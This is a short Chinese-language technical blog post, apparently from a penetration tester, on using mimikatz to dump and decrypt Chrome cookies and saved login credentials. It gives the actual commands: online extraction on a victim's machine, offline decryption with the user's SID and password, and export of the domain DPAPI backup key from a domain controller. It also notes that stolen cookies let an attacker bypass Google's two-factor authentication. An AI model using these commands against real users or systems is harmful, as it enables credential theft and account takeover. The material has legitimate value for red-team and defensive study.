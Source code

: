 ```yaml
---
title: 用mimikatz获取chrome的用户数据
date: 2019-07-07 15:45:29
tags:
---
```



1.在线获取，必须要登录到用户的计算机上

导出`cookies`

`dpapi::chrome /in:"C:\Users\victim\AppData\Local\Google\Chrome\User Data\Default\cookies"`

![cookies](../img/onlinecookies.png)

导出登录凭证
`dpapi::chrome /in:"C:\Users\victim\AppData\Local\Google\Chrome\User Data\Default\login data" /unprotect`

2.离线获取，有几点要求，需要知道目标的SID和密码，或者有域的根密钥

如果没有正确的masterkey，解密的时候会出现错误，如果有足够的权限，也可以使用mimikatz的`sekurlsa::dpapi`命令来获取masterkey，当然我们要离线的话，就不能把mimikatz上传到服务器

![decerror](../img/decrypterror.png)

SID和masterkey在用户的`%appdata%`目录下

![sidkey](../img/sidandmasterkey.png)

使用SID配合密码导入masterkey，然后对cookies进行解密，这样解出来的masterkey是默认导入了mimikatz的缓存里，解密时候不需要指定masterkey
`dpapi::masterkey /in:"1853c496-c182-49eb-aa4e-79a24e9bd90c" /SID:S-1-5-21-2104814972-2348396718-1065983387-1653 /password:YourPassword /unprotect`

![masterkey](../img/masterkey.png)

`dpapi::chrome /in:"cookies"`
![decryptcookie](../img/decryptcookie.png)

获得了chrome中保存的cookie，只要用户在登录google的时候，选择了记住该设备，那么可以利用解密出来的cookie进行登录，绕过google的双因素验证


使用mimikatz导出的backupkey来进行解密，导出的4个文件中最重要的为.pvk文件
`lsadump::backupkeys /export /system:dc.computer.com`

![backupkeys](../img/backupkeys.png)

使用.pvk文件进行解密masterkey，并解出cookies
![pvk1](../img/pvkdec.png)


![pvk2](../img/pvkcookies.png)


参考文章

https://ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++



